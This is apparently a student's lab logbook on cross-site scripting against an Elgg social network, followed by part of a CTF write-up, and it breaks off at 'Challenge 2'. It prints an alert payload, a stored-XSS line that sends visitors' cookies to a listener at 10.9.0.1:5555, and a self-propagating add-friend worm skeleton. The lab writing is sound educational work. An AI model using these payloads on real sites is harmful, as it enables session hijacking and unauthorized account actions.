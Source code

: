 # Log Book 10

## Task 1
For this task we want to inject a script into our profile. We achieved this by posting the following script into the field "Brief description":

```script
<script>alert('XSS');</script>
```

This script creates an alert window where it's displayed the string "XSS".

![](imgs/week10/task1.png)

## Task 2
By adding the following script to the field "Brief description" where we added the previous script in Task 1, an alert window is displayed with the user's cookies:

![](imgs/week10/task2.png)

## Task 3
In this task we want to be able to send the user's cookies to a server that belongs to the attacker. In the script bellow, we imbed the cookies that we want to send in a request that will be made to the attacker's machine:

```script
<script>document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + ' >');
</script>
```

By using the ```netcat``` command line tool to listen for any requests made from users that visited our profile, we can get the user's cookies contained in the requests.

![](imgs/week10/task3.png)

## Task 4
The objective of this task is to write a worm that adds Samy to a user's friend list when that user visits Samy's profile.

We can add Samy as a friend normally, and with the extension HTTP Header Live, we can find how a friend HTTP request is encoded:

![](imgs/week10/task4_addSamy.png)

Now we remove Samy as friend so that we can test the script. As we can see in the following image, Alice has no friends:

![](imgs/week10/task4_alice_profile.png)

Using this information, we can create a script that, when executed, forges a request that adds Samy as a friend to the logged in user.

```script
<script type="text/javascript">
window.onload = function () {
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;

//Construct the HTTP request to add Samy as a friend.

var sendurl=...; //FILL IN

//Create and send Ajax request to add friend

Ajax=new XMLHttpRequest();
Ajax.open("GET", sendurl, true);
Ajax.send();
}
</script>
```

Now we log in into Alice's account and visit Samy's profile. Then we go to Alice's profile and we can see that now, Alice and Samy are friends.

![](imgs/week10/task4_alice_profile.png)

### Question 1
The referenced lines serve to send the elgg token in our forged request so that the server evaluates the request as a valid request from the user.

### Question 2
A successful attack can't be launched since the Editor mode filters HTML special characters and we can't edit the inner HTML content of the field. Thus, injecting any script into the About Me field is not possible (if there's only Text mode), as we can't submit the ```<script>``` tag into profile.

---

## CTF 10

### Challenge 1
##### The goal in this CTF was to beg for the flag and wait 2 minutes for the administrator approval. The strategy we used to solve this problem was using XSS attack to force the administrator approval, therefore getting the flag.
##### At first we tested out with the word "teste" to see what happened.<br>
![](imgs/week10/logbook10_ctf1_teste.png)<br>
##### We figured out there is a button the admin can click to give out the flag to the user, but this button is inacessible to the user.
##### We then proceeded to try XSS to see if it would work.<br>
![](imgs/week10/logbook10_ctf1_script1.png)![](imgs/week10/logbook10_ctf1_script2.png)<br>
##### Then we started to prepare our final script. We discovered the id of the button that gives the flag away and we wrote the script.<br>
![](imgs/week10/logbook10_ctf1_id.png)![](imgs/week10/logbook10_ctf1_script_sol1.png)<br>
##### We were successful!<br>
![](imgs/week10/logbook10_ctf1_script_sol2.png)<br>

### Challenge 2
